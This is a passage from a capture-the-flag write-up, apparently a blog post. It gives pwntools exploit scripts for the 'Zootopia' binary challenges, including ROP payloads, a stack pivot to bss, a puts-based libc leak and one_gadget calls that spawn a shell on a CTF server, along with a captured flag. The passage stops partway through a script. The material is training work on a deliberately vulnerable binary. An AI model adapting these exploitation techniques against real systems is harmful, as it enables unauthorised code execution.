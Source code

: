 ```py
payload += p32(new_ebp)

pop_ebx = 0x08048415

payload += p32(pop_ebx)
payload += p32(libc_base + PLTGOT)

payload += p32(one_gadget)

payload += b'\x00\x00\x00\x00' * 10

"""
context.terminal = ['tmux','splitw','-h']
gdb.attach(sh, '''
break *0x804872b
continue
''')
"""

sh.sendline(payload)

sh.interactive()
```

**ACS_IXIA_CTF{I_heed_thy_call}**

<a name="zootopia4"></a>
## Zootopia 4 (75) - Exploit

x86-64 binary, same as [Zootopia 2](#zootopia2) but the system function is not imported into the binary. We are given the server's libc so we must first leak the libc value and then either call one_gadget or call system from libc.

![](/assets/images/posts/2022-04-17-18-13-14.png)

We now have 3 stages. First we pivot our stack to bss, then we leak the address of puts, then we call one_gadget.

```py
from pwn import *

#sh = process('./zootopia')
sh = remote('ctf-13.security.cs.pub.ro', 36317)

OFFSET_STACK = 0x98

vuln_function = 0x4008a0 # 0x8048712
call_puts = 0x40088d
puts_got_plt = 0x603020

pop_rdi = 0x4020d3

new_ebp = 0x670000

payload = b'/bin/sh\x00'
payload += b'A' * (OFFSET_STACK - len(payload) - 8)
payload += p64(new_ebp)
payload += p64(vuln_function)

sh.sendline(payload)

payload = b'/bin/sh\x00'

payload += b'A' * (OFFSET_STACK - len(payload) - 8)
```